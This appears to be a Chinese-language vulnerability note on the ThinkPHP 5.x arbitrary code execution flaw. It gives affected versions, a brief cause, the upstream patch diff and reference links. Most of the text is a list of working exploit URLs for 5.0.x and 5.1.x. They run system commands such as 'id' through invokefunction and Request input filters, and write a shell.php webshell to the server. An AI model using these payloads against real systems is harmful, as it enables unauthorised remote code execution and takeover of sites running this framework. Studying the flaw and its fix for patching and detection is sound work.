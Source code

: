 # ThinkPHP_5.X_全版本任意代码执行


## Affected Version

- ThinkPHP_5.X

## 0x00 源码地址

https://github.com/top-think/framework

## 0x01 搭建环境

phpstudy 2018

windows 10 x64

## 0x02 漏洞原理

控制器过滤不严，结合直接返回类名的代码操作，导致可以用命名空间的方式来调用任意类的任意方法。

**修复代码：**

https://github.com/top-think/framework/commit/802f284bec821a608e7543d91126abc5901b2815#diff-b14f70992e6922289d5fea7a43e4f8d3

```
        // 获取控制器名
        $controller = strip_tags($result[1] ?: $this->rule->getConfig('default_controller'));
   -      if (!preg_match('/^[A-Za-z](\w)*$/', $controller)) {
   +      if (!preg_match('/^[A-Za-z](\w|\.)*$/', $controller)) {
            throw new HttpException(404, 'controller not exists:' . $controller);
        }

```
## 0x03 漏洞利用

5.1.x php版本>5.5

```
http://127.0.0.1/index.php?s=index/think\request/input?data[]=phpinfo()&filter=assert

http://127.0.0.1/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][]=phpinfo()

http://127.0.0.1/index.php?s=index/\think\template\driver\file/write?cacheFile=shell.php&content=<?php%20phpinfo();?>

http://127.0.0.1/index.php?s=index/\think\template\driver\file/write?cacheFile=shell.php&content=%3C?php%20phpinfo();?%3E

s=index/\think\Request/input&filter=phpinfo&data=1

s=index/\think\Request/input&filter=system&data=id

s=index/\think\template\driver\file/write&cacheFile=shell.php&content=%3C?php%20phpinfo();?%3E

s=index/\think\view\driver\Php/display&content=%3C?php%20phpinfo();?%3E

s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1

s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
```

5.0.x php版本>=5.4

```
http://localhost/thinkphp_5.0.22_with_extend/public///index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][]=phpinfo()

s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1

s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
```

## 0x04 参考

[[漏洞分析]thinkphp 5.x全版本任意代码执行分析全记录](https://xz.aliyun.com/t/3570)

[【漏洞预警】ThinkPHP5远程代码执行漏洞](https://nosec.org/home/detail/2050.html)
